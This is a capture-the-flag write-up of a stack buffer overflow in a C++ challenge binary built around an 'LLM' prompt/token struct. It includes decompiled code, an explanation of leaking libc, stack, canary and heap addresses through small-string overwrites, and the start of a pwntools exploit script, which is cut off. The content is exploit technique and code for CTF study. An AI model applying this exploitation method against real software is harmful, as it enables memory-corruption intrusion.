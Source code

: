 ### **[0x01] Summary**

alloc a C++ basic_string less than 16 bytes, and Stack BOF exploit

### **[0x02] Solutions**

Maybe I think that it's a prob which many people have never been scared of and solved by C++. The vulnerability is easy because basic_string is initialized only once and the contents is changed after that.

```c
    if ( v10 == 2 )
    {
      LLM::get_prompt[abi:cxx11]((__int64)v12, (__int64)a2);
      v6 = std::operator==<char,std::char_traits<char>,std::allocator<char>>(v12, &unk_40503E);
      std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v12);
      if ( v6 ) // executed only once
      {
        std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(a1a);
        v7 = std::operator<<<std::char_traits<char>>(&std::cout, "What would you like to ask me?");
        std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
        std::getline<char,std::char_traits<char>,std::allocator<char>>(&std::cin, a1a);
        std::basic_ios<char,std::char_traits<char>>::clear(&unk_4081D0, 0LL);
        std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(v12, a1a);
        LLM::set_initial_prompt((__int64)a2, (__int64)v12);
        std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v12);
        std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(a1a);
      }
      else
      {
        LLM::update_prompt((#7 *)a2);           // similar with gets
      }
    }
```

And `LLM` struct is just two basic_string and upward is prompt, downward is LLM token. If we alloc a prompt at first less than 16 bytes, then it alloc its memory (stack), if you over 16 bytes than it uses heap. So, If we uses less than 16 bytes, we can leak libc, stack, etc. by overwriting the token from prompt. Because `LLM::update_prompt` is similar with gets. I overwrite it with srand_got (libc), environ (stack), canary, and token_addr (heap). Then ROP it.

```py
from pwn import *
choice = lambda index: p.sendlineafter(b"choice: ", str(index).encode())
def run():
    choice(1)

def update(s):
    choice(2)
    p.sendlineafter(b"?", s)

def leak(addr):
    update(b'F'*0x10 + p64(addr) + p64(8) * 2)
    run()
    p.recvuntil(b'token "')
    return u64(p.recvuntil(b'"', True)) 

token = b'A'*0x10
context(arch='amd64', os='linux')
if args.REMOTE:
```